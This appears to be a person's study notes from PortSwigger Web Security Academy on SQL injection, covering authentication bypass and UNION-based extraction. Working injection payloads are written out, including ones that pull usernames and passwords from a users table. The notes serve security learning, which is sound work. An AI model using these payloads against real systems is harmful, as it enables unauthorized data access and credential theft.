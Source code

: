 # Web Security

This document started as my notes while progressing through PortSwigger Web Security Academy. It's probably going to end up as a random collation of web-based exploitation descriptions, payloads and bypasses.

## SQL Injection

* A vulnerability that allows attackers to interfere and manipulate queries used for DB access. This can allow for reading sensitive data, or db writing/deletion, or sometimes even DoS.
* Can be injected in body parameters for forms and POST request, or query parameters in URLs and GET requests.

### Simple Cases

* Revealing hidden data

  * `x' or 1=1--` to cause query:

  * ```sqlite
    SELECT * FROM products WHERE category = 'x' OR 1=1 --' AND released = 1
    ```

* Bypasses

  * `admin'--` to cause query:

  * ```sqlite
    SELECT * FROM users WHERE username = 'admin'--' AND password = '' 
    ```

### UNION attacks

* `UNION` append the result of additional `SELECT` queries to the results of the original query
* Requires that **other queries return the same number of columns** and the **data types in each column are compatible between individual queries**
* Determine number of columns:
  * Method 1:  keep stacking NULL fields (since NULL is compatible with most data types) until results of original query are actually shown
    * `' UNION SELECT NULL,NULL,NULL--`
  * Method 2: increment `ORDER BY` until the results of original query are NOT shown (since that column number doesn't exist)
    * `' ORDER BY 3--`
* Finding columns with useful data types:
  * After determining number of columns, rotate testing a data type in a single field until there is visible output of original query (meaning no error and thus, compatible type)
    * `' UNION SELECT NULL,'a',NULL--`
* Append data from other table
  * `' UNION SELECT username, password FROM users--`
* Retrieving multiple values with single viewable column
  * Use a suitable concatenation method
  * `' UNION SELECT username||' '||password FROM users--`
